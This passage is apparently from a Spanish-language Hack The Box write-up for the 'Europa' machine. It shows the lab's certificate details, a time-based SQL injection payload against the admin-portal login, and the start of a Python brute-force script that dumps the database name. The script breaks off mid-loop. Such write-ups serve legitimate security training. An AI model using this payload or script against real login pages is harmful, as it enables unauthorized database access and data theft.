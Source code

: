 ```null
subject=C = GR, ST = Attica, L = Athens, O = EuropaCorp Ltd., OU = IT, CN = europacorp.htb, emailAddress = admin@europacorp.htb
issuer=C = GR, ST = Attica, L = Athens, O = EuropaCorp Ltd., OU = IT, CN = europacorp.htb, emailAddress = admin@europacorp.htb
```

En ```admin-portal.europacorp.htb``` puedo ver un panel de inicio de sesión

<img src="/writeups/assets/img/Europa-htb/2.png" alt="">

Es vulnerable a una inyección SQL basada en tiempo. Para validarlo, intercepté la petición con ```BurpSuite``` e introduje el siguiente payload

```null
test%40test.com' or sleep(5)-- -
```

Creo un script en python para dumpear datos. Primero obtengo el nombre de la base de datos actualmente en uso

```null
from pwn import *
import requests, pdb, signal, sys, time, string, urllib3

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "https://admin-portal.europacorp.htb/login.php"
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

sqtime = 3

# HTTPs Insecure OFF
urllib3.disable_warnings()


def MakeRequest():

    p1 = log.progress("SQLi")
    p2 = log.progress("Database")

    s = requests.session()
    s.verify = False

    database = ""

    for dbs in range(1, 10):
```